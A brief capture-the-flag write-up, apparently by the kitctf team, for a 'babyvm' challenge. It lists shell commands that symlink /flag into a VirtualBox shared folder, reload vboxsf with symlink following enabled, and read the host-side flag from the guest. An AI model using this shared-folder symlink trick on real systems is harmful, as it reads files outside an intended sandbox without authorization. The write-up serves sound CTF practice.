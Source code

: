 ## babyvm

```
su
ln -s /flag /vagrant/flag
umount vagrant
rmmod vboxsf
modprobe vboxsf follow_symlinks=1
mount -t vboxsf vagrant /vagrant
cat /vagrant/flag
```

## babyvm2
kitctf
Stay tuned... :>
